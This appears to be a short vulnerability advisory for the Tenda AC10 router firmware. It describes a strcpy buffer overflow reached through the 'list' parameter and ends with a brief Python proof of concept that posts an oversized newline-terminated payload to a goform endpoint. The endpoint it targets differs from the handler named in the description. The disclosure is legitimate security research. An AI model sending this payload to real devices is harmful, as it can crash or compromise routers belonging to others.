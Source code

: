 # buffer overflow

## Tenda_AC10

version: V15.03.06.47

## Description:

There is a buffer overflow in httpd/formSetQosBand

## Source:

you may download it from : https://www.tendacn.com/download/detail-3796.html

## Analyse:


![](9.png)

get value from list ,then call setQosMiblist

![](10.png)

p equal list, if list have '\n', get into while

then call strcpy, cause buff overflow

## POC
```
url = "http://192.168.1.13/goform/SetNetControlList"
payload = 'A'*300 + '\n'

r = requests.post(url, data={'list': payload})
``` 
